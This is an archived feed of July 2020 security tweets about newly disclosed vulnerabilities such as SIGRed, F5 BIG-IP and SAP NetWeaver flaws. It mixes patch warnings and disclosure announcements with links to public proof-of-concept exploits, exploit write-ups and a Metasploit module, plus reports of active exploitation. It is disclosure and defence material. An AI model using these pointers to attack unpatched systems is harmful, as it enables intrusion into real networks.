I found some bugs on Cisco SD-WAN vManage:
CVE-2020-3387 (Remote Code Execution) 
CVE-2020-3381 (Directory Traversal) 
CVE-2020-3406 (XSS) 
CVE-2020-3405 (XXE) 
CVE-2020-3437 (Info Disclosure)
CVE-2020-3401 (Path Traversal)
https://t.co/vzsn2ID5aM
</blockquote>

* https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=vManage&title=vManage&last_published=2020%20Jul&sort=-day_sir#~Vulnerabilities

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/1283431773137965056 _at Wed Jul 15 16:02:34 +0000 2020_**
<blockquote>
McAfee Total Protection (MTP) &lt; 16.0.R26 Escalation of Privilege (CVE-2020-7283)

Write-up
https://t.co/NrueV9gD4J

PoC
https://t.co/FsnwbwCUtY

#infosec #pentest #redteam #exploit #lpe
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/
* https://github.com/RedyOpsResearchLabs/CVE-2020-7283-McAfee-Total-Protection-MTP-16.0.R26-EoP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# hrbrmstr
**https://twitter.com/hrbrmstr/status/1283400078770700289 _at Wed Jul 15 13:56:37 +0000 2020_**
<blockquote>
We've updated our CVE-2020-1350 (DNS Server RCE) blog post with some info on tooling coverage, a note abt an uptick in DNS scanning (w/nod to @GreyNoiseIO) &amp; credited info from @GossiTheDog on how to make your Windows Server DNS a bit more stealthy. https://t.co/YeSGxkfbWJ
</blockquote>

* https://blog.rapid7.com/2020/07/14/windows-dns-server-remote-code-execution-vulnerability-cve-2020-1350-what-you-need-to-know/?update=true

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# VDIHacker
**https://twitter.com/VDIHacker/status/1283358134464118784 _at Wed Jul 15 11:09:57 +0000 2020_**
<blockquote>
If you haven’t heard yesterday a Major DNS vulnerability for Windows was found and a patch released. “CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability” its a 10 out of 10 aka very bad. Patch or Mitigate all Windows DNS Servers ASAP! https://t.co/Add2uA3NZv https://t.co/tAaMmnFgTO
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1283331032096411653 _at Wed Jul 15 09:22:15 +0000 2020_**
<blockquote>
CVE-2020-7283:Exploit code and write-up for an Escalation of Privilege affecting McAfee Total Protection (MTP) &lt; 16.0.R26

https://t.co/SCepfWOT0M

#bug #McAfee #0day #exploit #vulnerability #EoP #privesc #RedyOpsLabs #redteam #pentest #cybersecurity #infosec #informationsecurity
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# cyb3rops
**https://twitter.com/cyb3rops/status/1283330388002246657 _at Wed Jul 15 09:19:42 +0000 2020_**
<blockquote>
Sigma rule to detect the exploitation of Windows DNS RCE CVE-2020-1350

- a long shot looking for spawned sub processes of dns.exe (requires parent logging &gt; e.g. Sysmon)
- plz report false positives

https://t.co/pzJni5aCUh https://t.co/qi8g6XvqDm
</blockquote>

* https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2020_1350.yml

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>275</code></td>
</tr></table>

---
# PiotrBania
**https://twitter.com/PiotrBania/status/1283278150840061953 _at Wed Jul 15 05:52:07 +0000 2020_**
<blockquote>
Some of my recent bugs: Hyper-V RemoteFX vGPU Remote Code Execution Vulnerability (CVE-2020-1032, CVE-2020-1036, CVE-2020-1040, CVE-2020-1041, CVE-2020-1042, CVE-2020-1043) - https://t.co/r9pRu5ssQH   https://t.co/IR14JuSpYp
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/releasenotedetail/2020-Jul
* https://blog.talosintelligence.com/2020/07/vuln-spotlight-intel-amd-microsoft-july-2020.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---
# nnwakelam
**https://twitter.com/nnwakelam/status/1283178986185490432 _at Tue Jul 14 23:18:05 +0000 2020_**
<blockquote>
While everyone is talking about the DNS bug that just dropped I want a PoC on CVE-2020-6287. 10.0 CVSS SAP RCE? Sounds delicious.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---
# CyberRaiju
**https://twitter.com/CyberRaiju/status/1283158591843663872 _at Tue Jul 14 21:57:02 +0000 2020_**
<blockquote>
CVE-2020-1350: Critical wormable RCE vulnerability rated with a CVSS of 10 in Windows DNS Server. You may want to patch this ASAP or implement the mitigation. 

MSRC Blog:
https://t.co/yRclM8eGm5

Advisory:
https://t.co/OEvqWjmhgU

Guidance:
https://t.co/Smj1iQnfPh https://t.co/GdFgYmF7kC
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# blueteamblog
**https://twitter.com/blueteamblog/status/1283135082514046977 _at Tue Jul 14 20:23:37 +0000 2020_**
<blockquote>
This is so, so bad.
CVE-2020-1350 with CVSS of 10 named #SIGRed. Wormable RCE vulnerability in Windows DNS Server affecting all versions of Windows server running the DNS role. https://t.co/xYTzi72hF5

Exploit released already - https://t.co/9qphFRaqBR 

#infosec #cybersecurity
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---
# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1283127822870024192 _at Tue Jul 14 19:54:46 +0000 2020_**
<blockquote>
One of my MS Office vulnerability was patched in July.

CVE-2020-1458 | Microsoft Office Remote Code Execution Vulnerability
https://t.co/xCeVITvjDT
#infosec
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1458

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---
# ducnt_
**https://twitter.com/ducnt_/status/1283120193405718530 _at Tue Jul 14 19:24:27 +0000 2020_**
<blockquote>
Just stumbleupon with a RCE PoC of CVE-2020-6287 SAP NetWeaver AS JAVA. Kudos to @Queseguridad with an awesome work 🍻. #bugbountytip https://t.co/K7ACNu8z4B
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# antoniosanzalc
**https://twitter.com/antoniosanzalc/status/1283118272578236416 _at Tue Jul 14 19:16:50 +0000 2020_**
<blockquote>
Vuln. crítica en los DNS de Windows, CVE-2020-1350: https://t.co/hKlaHJM02T CVSS 10.0 (máximo). RCE wormable, con el agravante de que el 99% d los DNS son los DC. 1 PC, 1 correo malicioso, 1 exploit ... y Game Over. Aplica esta mitigación YA https://t.co/XMryJtYWBc y parchea ASAP
</blockquote>

* https://support.microsoft.com/es-es/help/4569509/windows-dns-server-remote-code-execution-vulnerability
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---
# cherepanov74
**https://twitter.com/cherepanov74/status/1283115324439748608 _at Tue Jul 14 19:05:07 +0000 2020_**
<blockquote>
RT @_CPResearch_: We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical v…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>813</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# sagitz_
**https://twitter.com/sagitz_/status/1283114958612561921 _at Tue Jul 14 19:03:39 +0000 2020_**
<blockquote>
CVE-2020-1350: A cool Windows DNS Server vulnerability (2003-&gt;2019) we found at @_CPResearch_
and got patched today #PatchTuesday
https://t.co/OapPwEYPvp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283114016999706624 _at Tue Jul 14 18:59:55 +0000 2020_**
<blockquote>
We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical vulnerability that can be used to achieve full Domain Administrator privileges.
https://t.co/giebs7WIhp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>811</code></td>
<td>Favorites: <code>1251</code></td>
</tr></table>

---
# omriher
**https://twitter.com/omriher/status/1283113889270509570 _at Tue Jul 14 18:59:24 +0000 2020_**
<blockquote>
We just disclosed SIGRed (CVE-2020-1350): Critical Vulnerability in all Windows DNS Servers (by @sagitz_).

Bonus: can also be triggered using the browser through a malicious link. #SIGRed
https://t.co/MMnjPwIUAp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>40</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>278</code></td>
<td>Favorites: <code>440</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1283107131596722176 _at Tue Jul 14 18:32:33 +0000 2020_**
<blockquote>
Microsoft has released an update addressing a “wormable” RCE vulnerability, CVE-2020-1350, in Windows DNS Server. Update asap! https://t.co/yjvpIgZbA3 #Cybersecurity #InfoSec
</blockquote>

* https://us-cert.cisa.gov/ncas/current-activity/2020/07/14/microsoft-addresses-wormable-rce-vulnerability-windows-dns-server#Cyber

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>508</code></td>
<td>Favorites: <code>646</code></td>
</tr></table>

---
# jarsnah12
**https://twitter.com/jarsnah12/status/1283099208946462720 _at Tue Jul 14 18:01:04 +0000 2020_**
<blockquote>
CVE-2020-1350 https://t.co/rAIOfxMSQb
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>27</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>690</code></td>
<td>Favorites: <code>2382</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283087717174214664 _at Tue Jul 14 17:15:25 +0000 2020_**
<blockquote>
Stay tuned for our technical publication regarding #SIGRed (CVE-2020-1350) at 12 (PST) - Critical vulnerability in Windows DNS
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1283087444015935489 _at Tue Jul 14 17:14:19 +0000 2020_**
<blockquote>
WARNING 🔥 CVE-2020-1350 (CVSS 10)

A critical 17-year-old 'wormable' RCE #vulnerability affects Windows DNS Servers (2013 to 2019 editions) that could let unauthenticated hackers gain 'Domain Admin' privileges on the targeted servers.

Details — https://t.co/Qoode1dizp

#infosec https://t.co/MWddwPytbT
</blockquote>

* https://thehackernews.com/2020/07/windows-dns-server-hacking.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>59</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>591</code></td>
<td>Favorites: <code>778</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1282927157006622720 _at Tue Jul 14 06:37:24 +0000 2020_**
<blockquote>
Windows Defender CVE-2020-1170 LPE Work Archive · GitHub - https://t.co/RPiiGF1kFU
</blockquote>

* https://gist.github.com/gwillcox-r7/419efc54568ae809eaf47843f058cadb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1282403888658673664 _at Sun Jul 12 19:58:07 +0000 2020_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 https://t.co/BnyJaPt2Rl
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1282392029008404482 _at Sun Jul 12 19:11:00 +0000 2020_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 - spoiler: there will be more of this class to be found elsewhere - https://t.co/JXmJEZ2DYp https://t.co/IXNKtVHFWP
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1282261016559136770 _at Sun Jul 12 10:30:24 +0000 2020_**
<blockquote>
RT @ArielKoren_: Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerabi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>214</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ArielKoren_
**https://twitter.com/ArielKoren_/status/1281982660152352769 _at Sat Jul 11 16:04:18 +0000 2020_**
<blockquote>
Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerability is triggered while parsing 3D objects and potentially affects a wide variety of Microsoft products.

https://t.co/jsSOzaVYxI

#RCE #CVE
</blockquote>

* https://www.mimecast.com/blog/2020/07/mimecast-discovers-3d-office-exploiter-a-remote-code-execution-vulnerability-in-microsoft-office/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>210</code></td>
<td>Favorites: <code>444</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1281623377199783937 _at Fri Jul 10 16:16:39 +0000 2020_**
<blockquote>
RT @RandomDhiraj: A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1281483341905059844 _at Fri Jul 10 07:00:12 +0000 2020_**
<blockquote>
Important — Instead of applying a patch, if you're relying on mitigation provided for F5 BIG-IP RCE #vulnerability (CVE-2020-5902), you're still at risk of getting hacked.

Researchers (@CharlesDardaman , @0xm1rch  @TeamAresSec) discover a bypass.

https://t.co/Q5Cfey1sp6
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1281248760320974850 _at Thu Jul 09 15:28:03 +0000 2020_**
<blockquote>
CVE-2020-1300 - Remote code execution via #Windows CAB files. Our colleagues from Trend Micro Research bring all the details about this recently patched bug. Read them at https://t.co/BBogMCZo0r
</blockquote>

* https://bit.ly/2ZXbQjm

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>186</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1281168794061344768 _at Thu Jul 09 10:10:18 +0000 2020_**
<blockquote>
RT @IanColdwater: New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP servi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1280939235055296513 _at Wed Jul 08 18:58:06 +0000 2020_**
<blockquote>
An exploitation case study of CVE-2020-1062, a use-after-free vulnerability in IE11 https://t.co/a13K4NcCyG
</blockquote>

* https://www.accenture.com/us-en/blogs/cyber-defense/exploitation-case-study-cve-2020-1062-vulnerability-in-ie11

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# IanColdwater
**https://twitter.com/IanColdwater/status/1280900915092951042 _at Wed Jul 08 16:25:50 +0000 2020_**
<blockquote>
New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP services bound to 127.0.0.1 running on the node or in the node's network namespace. Severity: high if insecure port enabled, otherwise med.

https://t.co/dC4Bgwp0ah
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92315

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---
# ehakkus
**https://twitter.com/ehakkus/status/1280750903167979523 _at Wed Jul 08 06:29:45 +0000 2020_**
<blockquote>
(CVE-2020-14930) #metasploit auxiliary module is ready for authentication bypass #0day which I discovered in CTROMS port management application. You can access #exploit and description from my personal blog. https://t.co/7rOJKtFuz5 (EDB-ID: 48196) https://t.co/Ld2IXEFsWJ
</blockquote>

* https://bit.ly/31QmcnU

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---
# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280643826009456640 _at Tue Jul 07 23:24:15 +0000 2020_**
<blockquote>
👀

&gt; F5 BIG-IP RCE CVE-2020-5902 exploit
&gt; Detected several minutes ago
&gt; Exploit slung exclusively over TLS
&gt; Source IP in M247, known APT favorite
&gt; IP is also running a Mullvad VPN gateway, via https://t.co/LHK7DddYEl

HMMmmm

https://t.co/TL6le6dLKz https://t.co/krBm6koRN8
</blockquote>

* http://spur.us
* https://viz.greynoise.io/ip/45.152.183.30

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---
# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280619226454163458 _at Tue Jul 07 21:46:30 +0000 2020_**
<blockquote>
Someone in Namecheap already using the Metasploit module to exploit the F5 Big-IP CVE-2020-5902 RCE vuln. 

This module was merged to master in Metasploit GitHub...... four hours ago

https://t.co/1qiPhBgXFU https://t.co/SrsTj3LkS5
</blockquote>

* https://viz.greynoise.io/ip/63.250.33.58

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>327</code></td>
</tr></table>

---
# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280553293320781825 _at Tue Jul 07 17:24:31 +0000 2020_**
<blockquote>
If you are relying on mitigations for CVE-2020-5902 we highly recommend that you patch. Our researchers @CharlesDardaman and @0xm1rch found a bypass to the mitigation and are working with F5 to have the advisory updated. #infosec #CVE https://t.co/IqmtfZ8WER
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>170</code></td>
<td>Favorites: <code>296</code></td>
</tr></table>

---
# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280279161219633152 _at Mon Jul 06 23:15:13 +0000 2020_**
<blockquote>
Since multiple exploits have been released for CVE-2020-5902 we have decided to share what @0xm1rch and @CharlesDardaman did in order to gain code execution on the F5 Big IPs #infosec  https://t.co/HzjPlYWo35
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---
# ajxchapman
**https://twitter.com/ajxchapman/status/1280200420363767810 _at Mon Jul 06 18:02:19 +0000 2020_**
<blockquote>
Spamming Bug Bounty programs with 1-day exploits (see CVE-2020-5902) is the Ambulance Chasing of bug hunting. Any sensible program will have a condition to allow them time to patch before paying out for these issues. #BugBounty #UnpopularOpinion
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---
# Bugcrowd
**https://twitter.com/Bugcrowd/status/1280194481397080064 _at Mon Jul 06 17:38:43 +0000 2020_**
<blockquote>
BREAKING 🚨 Bugcrowd security researchers are working around the clock to stop cybercriminals from stealing admin passwords using the CVE-2020-5902 remote code execution vulnerability in BIG-IP. Read the latest: https://t.co/QJMJrVXYZs https://t.co/M3JBuof4z3
</blockquote>

* https://www.helpnetsecurity.com/2020/07/06/exploit-cve-2020-5902/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---
# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1280153168391921664 _at Mon Jul 06 14:54:34 +0000 2020_**
<blockquote>
GreyNoise is observing "vuln check probes" and active opportunistic exploitation of the recent F5 RCE vulnerability CVE-2020-5902 from multiple devices. Tags are available for all users now. 

tags:"F5 BIG-IP TMUI RCE"
tags:"F5 BIG-IP TMUI RCE Vuln Check"

